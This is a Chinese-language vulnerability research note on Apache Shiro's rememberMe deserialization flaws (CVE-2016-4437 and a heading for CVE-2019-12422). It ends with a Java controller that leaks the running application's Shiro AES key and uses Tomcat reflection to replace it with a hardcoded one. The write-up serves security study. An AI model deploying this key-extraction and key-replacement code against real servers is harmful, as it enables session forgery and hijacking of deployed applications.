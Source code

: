 前置基础
---

Apache Shiro是一个功能强大且易于使用的Java安全框架，功能包括身份验证，授权，加密和会话管理。 


相关漏洞
---

### Shiro550 CVE-2016-4437

```
git clone https://github.com/apache/shiro.git  
cd shiro
git checkout shiro-root-1.2.4
```

登陆时-设置rememberMe-记录用户登录的凭证 

- 序列化用户身份"user"
- 对user进行AES加密，密钥为常量
- base64编码
- 设置到cookie中的rememberme字段



登陆后-rememberMe解密-识别用户身份

- 读取cookie中rememberMe值
- base64解码
- AES解密
- 反序列化



### Shiro721 CVE-2019-12422



研究利用
---

### Key 修改

测试环境

- shiro 1.2.24

#### 获取key

- 方式1：getCipherKey()

![image-20211118154359697](vulnerability-research.assets/image-20211118154359697.png)

- 方式2：爆破

![image-20211118155031602](vulnerability-research.assets/image-20211118155031602.png)

#### 修改key

##### 方式1: 成员变量

![image-20211118154624802](vulnerability-research.assets/image-20211118154624802.png)



![image-20211118154847035](vulnerability-research.assets/image-20211118154847035.png)

爆破密钥

![image-20211118154924247](vulnerability-research.assets/image-20211118154924247.png)



执行命令

![image-20211118155359227](vulnerability-research.assets/image-20211118155359227.png)

##### 方式2: 成员方法 setCipherKey

![image-20211118155853780](vulnerability-research.assets/image-20211118155853780.png)

#### 相关代码
`仅为实验性代码`

```java
package com.example.controller;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.shiro.web.mgt.CookieRememberMeManager;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Map;

@Controller
public class ShiroKeyController {
    @RequestMapping(value = "/getKey")
    public void getShiroKey(HttpServletResponse resp){
        try{
            byte[] key = new CookieRememberMeManager().getCipherKey();
            resp.getWriter().write("shiro key: \n" + new String(Base64.getEncoder().encode(key)));
        }catch (Exception ignored){}

    }
    @RequestMapping(value = "/changeKey")
    public void changeShiroKey(HttpServletResponse resp){
        try {
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) filterConfigs.get("shiroFilterFactoryBean");
            Field filterDef = getField(applicationFilterConfig,"filterDef");
            FilterDef filterDefIns = (FilterDef)filterDef.get(applicationFilterConfig);
            Field filter = getField(filterDefIns,"filter");
            Object filterIns = filter.get(filterDefIns);
            Field securityM = getField(filterIns,"securityManager");
            org.apache.shiro.mgt.SecurityManager securityInstance = (org.apache.shiro.mgt.SecurityManager)securityM.get(filterIns);
            CookieRememberMeManager cookieRememberMeManager = (CookieRememberMeManager) getField(securityInstance,"rememberMeManager").get(securityInstance);
            byte[] cipherKey = java.util.Base64.getDecoder().decode("2AvVhdsgUs0FSA3SDFAdag==");
            // cookieRememberMeManager.setCipherKey(cipherKey);
            setFieldValue(cookieRememberMeManager,"encryptionCipherKey",cipherKey);
            setFieldValue(cookieRememberMeManager,"decryptionCipherKey",cipherKey);
            resp.getWriter().write("new shiro key: \n" + new String(Base64.getEncoder().encode(cipherKey)));
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void setFieldValue(Object object,String fieldName,Object fieldValue) throws Exception {
        Field field =  getField(object,fieldName);
        field.set(object,fieldValue);
    }

    public static Field getField(Object object,String fieldName) {
        Class<? extends Object> clas = object.getClass();
        Field field = null;
        while (clas != Object.class){
            try {
                field = clas.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e){
                clas = clas.getSuperclass();
            }
        }
        if (field != null){
            field.setAccessible(true);
            return field;
        }else {
            return null;
        }
    }
}
```
